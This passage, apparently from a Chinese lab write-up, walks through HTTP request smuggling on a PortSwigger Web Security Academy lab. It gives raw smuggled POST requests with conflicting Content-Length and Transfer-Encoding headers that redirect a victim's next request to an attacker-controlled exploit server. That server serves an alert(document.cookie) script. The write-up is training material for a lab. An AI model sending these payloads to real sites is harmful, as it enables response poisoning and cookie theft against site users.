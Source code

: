 ```plain
POST / HTTP/1.1
Host: 0adb000003e8f05f81aa7f7900e90038.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=8 HTTP/1.1
Host: baidu.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d7b6e789cf7a4e23afed1177f67e66c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161642-6d4b80da-aa10-1.png)

[![](assets/1704418275-1744c4a2dc6ad70d45ffbb5d8388c551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161648-70de0c4a-aa10-1.png)  
在这里我们可以使用此请求将对网站的下一个请求重定向到/发布到我们自己选择的主机上，下面我们直接使用平台提供的漏洞服务器做一个演示，在/post 创建一个 text/javascript 文件：

```plain
alert(document.cookie)
```

[![](assets/1704418275-f14f3df1a92f85ffa0f594292bfc691f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161707-7c1264da-aa10-1.png)

随后构造以下走私的请求

```plain
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d1467e18e62ee313d515ab0daed6637b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161733-8ba620f8-aa10-1.png)

刷新博客站点可以看的被投毒的效果

[![](assets/1704418275-cdb942896c60ccbe8c03271295833d8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161747-93c81980-aa10-1.png)
